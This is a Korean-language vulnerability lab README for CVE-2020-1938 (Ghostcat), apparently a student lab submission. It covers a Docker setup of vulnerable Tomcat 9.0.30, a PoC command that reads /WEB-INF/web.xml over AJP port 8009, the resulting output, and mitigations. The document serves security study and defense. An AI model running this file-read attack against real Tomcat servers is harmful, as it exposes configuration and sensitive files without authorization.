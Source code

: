 # CVE-2020-1938 - Ghostcat (Apache Tomcat AJP File Read Vulnerability)

## 개요

**CVE-2020-1938**, 일명 **Ghostcat**은 Apache Tomcat의 AJP 커넥터(AJP/1.3 프로토콜)를 악용해 인증 없이 Tomcat 내부의 민감 파일을 읽을 수 있는 취약점입니다.  
AJP 포트가 외부에 노출되어 있는 경우, 공격자는 `/WEB-INF/web.xml` 등 서버 내부 파일을 사용자 입력값 검증없이 열람 및 실행이 가능합니다.

- **취약점 ID:** CVE-2020-1938  
- **공개일:** 2020-02-20 
- **취약점 유형:** 정보 유출 (Information Disclosure)  
- **PoC 가능 여부:** 가능 (Docker 환경 구성 완료)

---

## 환경 구성 방법

### 1. 실행 환경 (Docker)

```bash
git clone https://github.com/kimyeeun21/kr-vulhub.git
cd kr-vulhub/CVE-2020-1938
docker compose up -d  명령어로 Apache Tomcat 실행
```

- 브라우저에서 `http://localhost:8080` 접속 → Tomcat 정상 구동 확인
- 컨테이너는 포트 8080(HTTP), 8009(AJP)을 엽니다

---

## PoC 실행 방법

### 1. 사전 준비

- Python 3.12.9 설치

### 2. 공격 명령어

```bash
python poc.py 127.0.0.1 -p 8009 -f /WEB-INF/web.xml
```

### 3. PoC 성공 결과

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         version="4.0" metadata-complete="true">
  <display-name>Welcome to Tomcat</display-name>
  <description>Welcome to Tomcat</description>
</web-app>
```

> Tomcat의 내부 설정 파일(web.xml)을 성공적으로 열람할 수 있었습니다.

---

## PoC 환경 구성 파일

### docker-compose.yml

```yaml
version: '2'
services:
  tomcat:
    image: tomcat:9.0.30
    ports:
      - "8080:8080"
      - "8009:8009"
```

### Dockerfile

```dockerfile
FROM tomcat:9.0.30
```

### poc.py

- Vulhub의 [PoC 코드](https://github.com/vulhub/vulhub/blob/master/tomcat/CVE-2020-1938/poc.py)를 사용
- Python 3.11 이상 호환을 위해 `bufsize` 제거, `bytes.decode()`로 출력 처리

---

## 대응 방안

| 조치              | 설명                                                    |
|-------------------|---------------------------------------------------------|
| AJP 비활성화   | `server.xml`에서 AJP 커넥터 제거 또는 주석 처리        |
| 방화벽 설정    | 8009 포트를 외부에서 접근하지 못하도록 방화벽 차단     |
| ⬆버전 업그레이드 | Apache Tomcat을 9.0.31 이상으로 업그레이드              |

### `server.xml` 예시 (AJP 주석 처리)

Tomcat 설정 파일인 `server.xml`에서 AJP 포트를 주석 처리하면 외부에서 해당 포트 접근이 차단됩니다.

```xml
<!--
<Connector port="8009" protocol="AJP/1.3" redirectPort="8443" />
-->
```

---

## 📎 참고 자료

- [CVE-2020-1938 (NVD)](https://nvd.nist.gov/vuln/detail/CVE-2020-1938)
- [Tenable - Ghostcat 상세 분석](https://www.tenable.com/blog/ghostcat-vulnerability-discovered-in-apache-tomcat-cve-2020-1938)
- [Vulhub - CVE 환경](https://github.com/vulhub/vulhub/tree/master/tomcat/CVE-2020-1938)

---

## ✅ PoC 결과 캡처

![PoC 실행 결과](./xml_result.png)

---

## 🔗 제출 정보

- **GitHub Repo:** [https://github.com/kimyeeun21/kr-vulhub](https://github.com/kimyeeun21/kr-vulhub)  
- **Pull Request:** [https://github.com/kimyeeun21/kr-vulhub/tree/main/CVE-2020-1938]